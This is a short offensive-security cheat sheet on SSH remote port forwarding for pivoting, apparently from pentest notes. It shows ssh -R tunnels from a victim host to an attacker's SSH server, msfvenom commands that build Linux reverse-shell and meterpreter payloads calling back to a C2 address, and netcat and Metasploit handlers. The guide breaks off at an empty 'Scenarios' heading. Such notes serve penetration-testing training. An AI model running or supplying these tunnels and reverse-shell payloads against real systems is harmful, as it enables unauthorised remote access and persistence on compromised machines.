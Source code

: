 # Remote Port Forwarding

> [!IMPORTANT] Configuration Conditions
> In the `/etc/ssh/sshd_config`. `GatewayPorts` must be enabled. Below you'll see the configuration.
> ```
$ cat /etc/ssh/sshd_config
..[omitted]..
GatewayPorts yes
..[omitted]..
> ```

## 01 - Usage

### 1.1 - Victim port forwarding to the attacker's SSH server

```
$ ssh -R [<bind_IP>:]<local_PORT>:<bind_remote_IP>:<bind_remote_PORT> <username>@<attacker_IP>

$ ssh -NTfCqR [<bind_IP>:]<local_PORT>:<bind_remote_IP>:<bind_remote_PORT> <username>@<attacker_IP>
```

### 1.2 - Remote Port Forwarding Reverse Shells

```
$ ssh -NTfCqR <local_PORT>:127.0.0.1:<bind_remote_PORT> <username>@<C2_IP>
```

Generate a reverse callback shell and start a shell handler via `netcat`.

```
$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<C2_IP> lport=<local_PORT> -f elf -o shell.elf

$ nc -lnvp <bind_remote_PORT>
```

Generate a reverse callback shell and start a shell handler via `metasploit-framework`.

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<C2_IP> lport=<local_PORT> -f elf -o shell.elf

msf > use payload/linux/x86/meterpreter/reverse_tcp

msf payload(linux/x86/meterpreter/reverse_tcp) > set lhost <C2_IP>

msf payload(linux/x86/meterpreter/reverse_tcp) > set lport <bind_remote_PORT>

msf payload(linux/x86/meterpreter/reverse_tcp) > to_handler
```

## 02 - Scenarios
